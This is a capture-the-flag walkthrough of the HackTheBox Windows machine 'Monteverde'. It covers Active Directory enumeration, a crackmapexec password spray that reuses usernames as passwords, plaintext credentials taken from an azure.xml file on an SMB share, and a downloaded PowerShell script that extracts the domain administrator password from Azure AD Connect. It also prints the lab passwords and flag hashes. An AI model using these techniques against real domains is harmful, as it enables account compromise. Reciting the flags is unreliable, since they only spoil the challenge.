 # Hackthebox - Monteverde
![image](Monteverde.png)
## Summary

Monteverde,a Windows box created by HackTheBox user `egre55`, was an overall medium difficulty box. Initial foothold was finding a cred which was a result of a lazy sysadmin. using that we can find credentials for user in a ```azure.xml``` file. checking the group of that user we see it is in Azure Admin group which mean it can perform DCSync using that we can get administrator credentials and pwned this box.

## Enumeration

### nmap scan
```
### Nmap 7.80 scan initiated Tue June 2 14:11:44 2020 as: nmap -T4 -sC -sV -oN nmap/monteverde 10.10.10.172
Nmap scan report for 10.10.10.172
Host is up (0.21s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-11 19:22:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/11%Time=5E1A1E53%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m22s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-01-11T19:23:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
### Nmap done at Sat Jan 11 14:17:14 2020 -- 1 IP address (1 host up) scanned in 329.68 seconds
```
we see all the ports are `Active Directory` and `SMB` related

running `emum4linux` we get a list of usernames.
```
=============================
|    Users on 10.10.10.172    |
=============================
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2	Name: AAD_987d7f2f57d2	Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos	Name: Dimitris Galanos	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope	Name: Mike Hope	Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary	Name: Ray O'Leary	Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs	Name: SABatchJobs	Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan	Name: Sally Morgan	Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata	Name: svc-ata	Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec	Name: svc-bexec	Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp	Name: svc-netapp	Desc: (null)

user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```
using that we can create a `users.txt` as
```
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
` crackmapexec smb 10.10.10.172 -u users.txt -p users.txt`

Trying the same username as password we get a successful credential as `SABatchJobs:SABatchJobs`

Trying that on `winrm` we get `Invalid credential` so lets try on `smb`, and Bingo

we can list and Read lot of shares checking //10.10.10.172/users$ share we see there is a `azure.xml` in `mhope` directory
```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
which contain the password as `4n0therD4y@n0th3r$` for `mhope`.

Trying that with [evil-winrm](https://github.com/Hackplayers/evil-winrm) we get a shell as mhope using that we can grab users.txt as `4961976bd7d8f4eeb2ce3705e2f212f2`

## Privilege Escalation

Taking a look to the privileges of this user you can find that it is a member of the group Azure Admins

which means we can do DCSync.

Reading about any exploits for Azure Admin Sync we stumble upon [xpnsec](https://blog.xpnsec.com/about/) [blog](https://blog.xpnsec.com/azuread-connect-for-redteam/)

Performing the attack is as easy as downloading the PS1 [script](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) and executing that.

```
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

and we have credential for administrator using that we can grab root.txt as `12909612d25c8dcf6e5a07d1a804a0bc`
and we have pwned  `Monteverde` 💃💃💃
